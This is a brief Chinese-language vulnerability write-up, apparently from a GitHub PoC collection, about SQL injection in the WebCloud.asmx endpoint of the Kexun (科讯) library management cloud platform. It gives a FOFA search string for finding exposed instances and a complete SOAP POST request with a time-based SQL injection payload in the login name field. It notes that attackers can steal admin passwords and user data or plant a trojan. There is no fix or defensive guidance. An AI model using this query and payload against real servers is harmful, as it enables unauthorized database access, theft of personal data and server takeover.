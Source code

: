 ## 科讯图书馆综合管理云平台WebCloud.asmx存在SQL注入

科讯图书馆综合管理云平台WebCloud.asmx存在SQL注入，未经身份验证的远程攻击者除了可以利用SQL注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```
body="科迅软件 版权所有"
```

## poc

```
POST /WebCloud.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "WebCloud/LibraryCloud"
 
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <LibraryCloud xmlns="WebCloud">
      <str>{"cmd":"login","schoolloginname":"1';WAITFOR DELAY '0:0:5'--","schoolpwd":"1"}</str>
      <files>base64Binary</files>
    </LibraryCloud>
  </soap:Body>
</soap:Envelope>

```

